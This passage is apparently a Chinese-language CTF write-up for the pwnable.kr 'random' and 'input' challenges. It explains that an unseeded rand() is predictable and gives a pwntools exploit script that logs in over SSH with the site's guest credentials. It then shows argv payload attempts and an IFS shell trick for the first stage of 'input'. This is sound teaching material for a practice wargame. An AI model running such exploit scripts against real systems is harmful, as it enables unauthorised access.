 我们知道rand()是一个根据srand(seed)生成的伪随机数列，然后这里的seed又是固定的（未调用srand()）

就可以写Exp了

Exp:

```python
#coding=utf-8
from pwn import *
from ctypes import *
context(arch = 'amd64', os = 'linux')

libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")

shell=ssh(host='pwnable.kr',user='random',password='guest',port=2222)
#shell.download_file("./random.c")
#shell.download_file("./random")

payload=str(0xdeadbeef^(libc.rand()))

sh=shell.run('./random')
sh.sendline(payload)
sh.interactive()
```

## 0x07 input

考察程序的各项基本操作

可惜我还没有那么多“常识”

### Stage 1 argv

```c
	if(argc != 100) return 0;
	if(strcmp(argv['A'],"\x00")) return 0;
	if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
	printf("Stage 1 clear!\n");	
```

一开始直接写

```
#payload=" a"*(ord('A')-1)+" \x00"+" a"*(ord('B')-ord('A'))+" \x20\x0a\x0d"+' a'*(100-ord('B')+1)
#sh=shell.run('./input'+payload)
```

发现\x20\x0a\x0d是空格换行回车。。。。会被当成分隔符不被读入。。。。

当然你也可以通过设置手动设置分隔符的方式通过Stage1

```
IFS='-'//设置分隔符为“-”
./input `python-c 'print"aaa-"*64+"\x00-"+"\x20\x0a\x0d-"+"aaa-"*33'`
```

最后还是发现写c脚本更好用
